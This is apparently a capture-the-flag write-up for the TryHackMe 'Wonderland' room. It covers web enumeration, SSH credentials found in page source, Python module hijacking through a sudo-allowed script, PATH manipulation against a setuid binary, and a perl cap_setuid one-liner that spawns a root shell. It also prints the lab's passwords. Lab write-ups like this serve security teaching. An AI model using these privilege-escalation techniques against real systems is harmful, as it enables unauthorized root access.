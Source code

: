 # Wonderland - Linux - Medium

**IP may vary over the document**

## Enumeration

### Nmap: `nmap -p- -T5 10.10.178.26 -oN nmap-initial -vv`

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Gobuster: `gobuster dir -u http://10.10.178.26/ -w ../common_wl.txt| tee gobuster-scan`

```
/img                  (Status: 301) [Size: 0] [--> img/]
/index.html           (Status: 301) [Size: 0] [--> ./]  
/r                    (Status: 301) [Size: 0] [--> r/] 
```

Checking contents of /r dir using gobuster we get: 

```
/a                    (Status: 301) [Size: 0] [--> a/]
/index.html           (Status: 301) [Size: 0] [--> ./]
```

Why do I feel like this will go on for a while like this. This is what the web address looks like now: `http://10.10.178.26/r/a/`. I have a feeling this will be **rabbit** *(Cause when Alice followed rabbit into the hole she found about the wonderland.. This was the only logic I thought at that momment)*. 

Trying: `http://10.10.178.26/r/a/b/b/i/t/`

Checking the source code we can see: `alice:HowDothTheLittleCrocodileImproveHisShiningTail`

SSH creds maybe? Let's try and we are in. Awesome... But there is no user.txt rather we have **root.txt** which we cannot read.

Let's check the users on system: `grep -E "/bin/.*sh" /etc/passwd`

```bash
root:x:0:0:root:/root:/bin/bash
tryhackme:x:1000:1000:tryhackme:/home/tryhackme:/bin/bash
alice:x:1001:1001:Alice Liddell,,,:/home/alice:/bin/bash
hatter:x:1003:1003:Mad Hatter,,,:/home/hatter:/bin/bash
rabbit:x:1002:1002:White Rabbit,,,:/home/rabbit:/bin/bash
```

Doing `sudo -l` reveals we can execute certain command as rabbit user. 

```bash
User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

We have read perms on *walrus\*.py* file but no write perms. Let's see what it is doing. 

```python
import random

poem="SOME LONG POEM HERE"

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

Executing it just prints out some random lines from the poem. What can I do with it? 

Doing a little bit research it seems if I make a python file with the same name as being imported (in this case random.py) in the same directory as the file calling it(walrus\*.py), it would not actually import python library *random* but would rather import the *random.py* file in it's current directory. Awesome looks like we can get to run custom commands as user **rabbit**.

Creating a random.py file

```python
import os 

def func1():
    cmd = "ls -al /home/rabbit"
    print(os.system(cmd))
    os.system("cd /home/rabbit; file *")

def choice(var):
    func1()
    exit(1)
```

Let's run this *walrus\*.py* as rabbit user

`sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`

We get the following output

```bash
total 40
drwxr-x--- 2 rabbit rabbit  4096 May 25  2020 .
drwxr-xr-x 6 root   root    4096 May 25  2020 ..
lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
0
teaParty: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75a832557e341d3f65157c22fafd6d6ed7413474, not stripped
```

There seems to be just a *teaParty* file which seems to have **suid** bit set. Let's run that and check if we can get something out of this.

Altering the **random.py** again

```python
import os 

def func1():
    cmd = "ls -al /home/rabbit"
    print(os.system(cmd))
    os.system("cd /home/rabbit; file *")

def func2():
    cmd = "/home/rabbit/teaParty"
    os.system(cmd)

def choice(var):
    func2()
    exit(1)
    return 1
``` 

Executing that *walrus\*.py* again.. We have the following output

```
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Mon, 14 Jun 2021 16:11:08 +0000
Ask very nicely, and I will give you some tea while you wait for him
as
Segmentation fault (core dumped)
```

No matter what the input is supplied it ends up giving a **Segmentation fault error**. Is this thing **BufferOverflow**?. Seems like I need to get the binary.

Altering the **random.py** again

```python
import os 

def func1():
    cmd = "ls -al /home/rabbit"
    print(os.system(cmd))
    os.system("cd /home/rabbit; file *")

def func2():
    cmd = "cp /home/rabbit/teaParty /tmp"
    os.system(cmd)

def choice(var):
    func2()
    exit(1)
``` 

Executing that *walrus\*.py* again.. we have our binary copied to /tmp folder. Now just do a simple **scp** to copy the file to our attacking machine.


## Analysing the binary

Using **radare2** for analysis reveals something like the following under *main* section in the binary

`"/bin/echo -n 'Probably by ' && date --date='next hour' -R"`

It seems it is using /bin/echo as to make sure it reads the correct binary but *date* is there without any absolute path... hence I might me able to trick the binary using **$PATH modification/manipulation**.


## Getting user rabbit 

After a lot of trial and error with the binary and path manipulation as user **alice** resulted in nothing. Using the *random.py* we can get the shell for user **rabbit**.

```python
os.system("/bin/bash")
```

After having the shell for **rabbit** create a shell script with the name **date** with following contents:

```bash
#!/bin/bash

/bin/bash
```

Now time for path varible manipulation:

```bash
export PATH=/home/rabbit:$PATH
```

Executing the binary now will result in a shell as user **hatter**. Just navigate to /home/hatter and cat out the **password.txt** file. Using this file one can ssh to user **hatter**.

Contents of /home/hatter/password.txt: `WhyIsARavenLikeAWritingDesk?`

Using `sudo -l` : resulted in nothing usefull

Checking for binaries with suid using `find -perm -u=s -type f 2>/dev/null` : resulted in nothing usefull. Lets go [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS).

LinPEAS reports about sudo version. Checking searchsploit for said sudo version resulted in nothing. 

It also reports:

```bash
/usr/bin/perl
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/perl = cap_setuid+ep
```

Checking [gftobins](https://gtfobins.github.io/gtfobins/perl/) reveals:

```
If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.
```

Using the below exploit we can gain root privellages.

```bash
usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

`/root/` directory has the file called **user.txt** while `/home/alice/` directory has the file called **root.txt**. Just cat out the files for flags.
